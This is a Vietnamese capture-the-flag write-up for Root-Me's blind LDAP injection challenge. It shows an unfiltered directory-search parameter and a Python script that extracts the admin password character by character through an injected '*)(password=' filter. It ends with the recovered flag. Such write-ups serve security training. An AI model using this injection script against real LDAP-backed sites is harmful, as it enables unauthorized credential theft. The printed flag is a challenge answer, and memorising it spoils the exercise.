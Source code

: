 ```diff
@@ Web-Server Challenge
```

## LDAP injection - Blind [55 Points]

* Ở site **dir** của trang web cho phép ta search một user bất kỳ, tham số được truyền bằng phương thức GET, param nằm trên đường dẫn và ta có thể inject vào đây

  ![12](img/12.jpg)

* Vậy là **ldap_search()** tìm kiếm thư mục dựa trên query của chúng ta mà không cần xác thực. Thử các ký tự đặc biệt như *****, **()** ta thấy nó không bị filter

  ![12-1](img/12-1.jpg)

* Chuẩn bị một payload để thực hiện brute-force password

  ```python
  import requests

  flag = ""
  url="http://challenge01.root-me.org/web-serveur/ch26/?action=dir&search=admin*)(password="
  for i in range(1,20):
      check = False
      for j in range(39,127):
          pw = flag + chr(j)
          r = requests.get(url=url+pw)
          if("admin" in r.text):
              flag+=chr(j)
              print(flag)
              check = True
          if(check):
              break
  print(flag)
  ```

* Kết quả ta thu được password của admin -> chính là Flag

  ![12-2](img/12-2.jpg)

* Tuy nhiên LDAP không phân biệt chữ hoa-thường, nên kết quả sẽ phải là

  ```diff
  -- dsy365gdzerzo94
  ```